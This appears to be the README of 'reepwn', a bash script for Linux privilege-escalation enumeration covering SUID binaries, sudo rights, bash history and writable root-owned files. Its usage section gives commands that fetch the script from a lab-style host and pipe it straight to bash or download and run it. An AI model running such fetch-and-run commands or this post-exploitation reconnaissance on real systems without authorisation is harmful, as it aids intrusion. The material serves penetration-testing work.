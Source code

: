 # reepwn
A bash script used for security-orientated Linux enumeration  
  
Inspired by: [LinEnum](https://github.com/rebootuser/LinEnum)

Features
--------
- OS Detection
- Bash History listing
- SUID things you can run owned by root (https://gtfobins.github.io/)
- Useful /etc/passwd people (uid 0, 500, 501, 502, 1000, 1001, 1002, 2000, 2001, 2002)
- Sudo permissions
- POSIX permissions
- Finding important log files you can see
- Finding root owned directories that you can write to
- Finding root owned directories that your group can access
- Finding root owned files that you can edit
- Finding specific user files that you can view

Usage
-----

curl http://10.10.10.1:1234/reepwn.sh | bash

or

wget http://10.10.10.1:1234/reepwn.sh && chmod +x ./reepwn.sh && ./reepwn.sh

Notes
-----
reepwn gets root-specific info by default. If you want info pertaining to a different user, you can go

./reepwn.sh UsernameHere
